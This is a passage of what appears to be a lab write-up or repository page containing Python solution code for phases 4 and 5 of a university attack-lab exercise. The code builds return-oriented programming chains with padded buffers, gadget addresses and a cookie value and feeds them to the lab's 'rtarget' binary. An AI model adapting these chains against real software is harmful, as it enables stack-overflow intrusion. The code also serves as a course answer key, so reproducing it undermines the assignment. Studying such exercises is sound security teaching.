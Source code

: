 ```py

def cookie_to_hex(x: int) -> bytes:
    return bytes(hex(x)[2:], encoding='ascii')

def find_gadget_addr(x: str) -> int:
    return Gadgets.get(hashlib.sha256(x.encode('ascii')).hexdigest())

### Stage 4
def phase_4():
    TOUCH_2_ADDR = 0x401702

    Ex = b''
    Ex = Ex.ljust(GETBUF_STACK_OFFSET, b'A')

    Ex += p64(find_gadget_addr("pop rax ; ret"))
    Ex += p64(COOKIE)
    Ex += p64(find_gadget_addr("mov rdi, rax ; ret"))
    Ex += p64(TOUCH_2_ADDR)

    with open("exploit.txt", 'w') as f:
        f.write(byte2sphex(Ex))

    os.system("./hex2raw < exploit.txt | ./rtarget")

### Stage 5
def phase_5():
    TOUCH_3_ADDR = 0x4017D6
    ADD_XY_ADDR = 0x4018A1
    
    Ex = b''
    Ex = Ex.ljust(GETBUF_STACK_OFFSET, b'A')
    Ex += p64(find_gadget_addr("mov rax, rsp ; ret"))
    Ex += p64(find_gadget_addr("mov rdi, rax ; ret"))
    Ex += p64(find_gadget_addr("pop rsi ; ret"))
    Ex += p64(0x30)
    Ex += p64(ADD_XY_ADDR)
    Ex += p64(find_gadget_addr("mov rdi, rax ; ret"))
    Ex += p64(TOUCH_3_ADDR)
    Ex += cookie_to_hex(COOKIE)

    with open("exploit.txt", 'w') as f:
        f.write(byte2sphex(Ex))

    os.system("./hex2raw < exploit.txt | ./rtarget")

if __name__ == "__main__":
	phase_4()
	phase_5()
```

### `GadgetData.py` - *Executed on local environment*
